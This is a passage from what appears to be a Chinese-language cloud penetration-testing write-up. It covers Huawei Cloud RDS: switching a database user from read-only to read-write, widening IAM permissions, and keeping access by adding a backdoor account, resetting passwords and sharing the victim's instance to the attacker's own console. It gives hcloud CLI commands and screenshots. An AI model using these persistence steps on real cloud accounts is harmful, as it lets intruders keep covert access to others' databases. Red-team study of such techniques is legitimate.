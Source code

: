 ![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-04-19/1650354294-764973-image.png)

cli修改只读权限为读写

`hcloud RDS AllowDbUserPrivilege --cli-region="cn-south-1" --instance_id="dddddd" --project_id="0a8453d1f700250e2f02c00e683b8531" --db_name="huoxian" --users.1.readonly=false --users.1.name="admin"`

##### 4、修改IAM账号权限
首先看下官方的权限说明

![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-04-19/1650354352-643652-image.png)

![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-04-19/1650354377-453228-image.png)

我们可以修改IAM账号的权限使其拥有修改数据库的权限

![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-04-19/1650354395-145911-image.png)

### 0x05 权限维持
##### 1、添加数据库账号密码
控制台添加账号

![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-04-19/1650354419-990223-image.png)

华为云cli添加账号

`hcloud RDS CreateDbUser --cli-region="cn-south-1" --instance_id="2b51b2c6abdf462893939964b4c612fain01" --project_id="0a8453d1f700250e2f02c00e683b8531" --password="1234qwer!" --name="stay"`

##### 2、修改数据库账号密码
控制台修改密码

![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-04-19/1650354433-397349-image.png)

华为云cli修改密码(密码强规则)

`hcloud RDS ResetPwd --cli-region="cn-south-1" --instance_id="2b51b2c6abdf462893939964b4c612fain01" --project_id="0a8453d1f700250e2f02c00e683b8531" --db_user_pwd="1234qwer!"`

##### 3、共享数据库实例
我们可以将对方的数据库实例分享给自己，然后在自己的控制台就可以登录
首先我们需要知道数据库的账号密码，或者可以使用前面讲到的重新添加一个账号

![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-04-19/1650354462-140106-image.png)

接着新增数据库实例登录，这里选择记住密码，我们自己账号登录时便不需要密码了

![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-04-19/1650354471-149479-image.png)

然后查看共享用户数，选择手动录入，输入自己的账号ID即可，返回自己的账号看下

![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-04-19/1650354483-100347-image.png)

直接点击后面的登录
